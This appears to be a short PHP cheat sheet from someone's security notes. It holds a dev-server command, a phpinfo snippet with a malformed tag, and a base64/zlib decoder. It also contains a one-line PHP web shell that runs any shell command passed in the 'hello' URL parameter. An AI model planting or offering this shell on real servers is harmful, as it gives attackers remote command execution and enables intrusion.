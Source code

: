 # Useful_PHP

PHP webserver
```bash
php -S 0.0.0.0:8000
```

Execute file:
```bash
php file.php
```

```php
<?php system($_GET['hello']); ?>
```

```PHP
<php echo("Hello");phpinfo(); ?>
```


Base64 PHP decoder
```PHP
<?php echo zlib_decode(base64_decode('base64here')); ?>
```